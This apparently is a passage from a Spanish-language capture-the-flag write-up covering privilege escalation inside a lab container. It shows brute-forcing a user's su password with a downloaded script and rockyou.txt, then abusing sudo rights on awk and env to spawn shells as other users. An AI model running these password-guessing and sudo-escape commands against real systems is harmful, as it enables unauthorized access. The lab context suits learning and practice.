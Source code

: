 # ESCALADA PRIVILEGIOS
Tras un buen rato, no encontramos forma de escalar, vamos a probar a hacer un ataque de fuerza bruta.

Nos descargamos : https://github.com/Maalfer/Sudo_BruteForce/blob/main/Linux-Su-Force.py

   ```bash
www-data@e5d8d275281e:/tmp$ ./Linux-Su-Force.sh mario rockyou.txt 
Contraseña encontrada para el usuario mario: password123
```

**Usuario -> mario**
**Contra -> password123**

Vemos si el usuario tiene permisos SUDO:
   ```bash
mario@e5d8d275281e:/tmp$ sudo -l
Matching Defaults entries for mario on e5d8d275281e:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mario may run the following commands on e5d8d275281e:
    (julen) NOPASSWD: /usr/bin/awk


```

Vemos **awk** con permisos SUDO :
   ```bash
mario@e5d8d275281e:/tmp$ sudo -u julen awk 'BEGIN {system("/bin/sh")}'
$ whoami
julen

```

YA ESTAMOS COMO JULEN.

Vemos si el usuario tiene permisos SUDO:
   ```bash
$ sudo -l
Matching Defaults entries for julen on e5d8d275281e:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User julen may run the following commands on e5d8d275281e:
    (iker) NOPASSWD: /usr/bin/env



```

Vemos **env** con permisos SUDO :
   ```bash
$ sudo -u iker env /bin/sh
$ whoami
iker
```
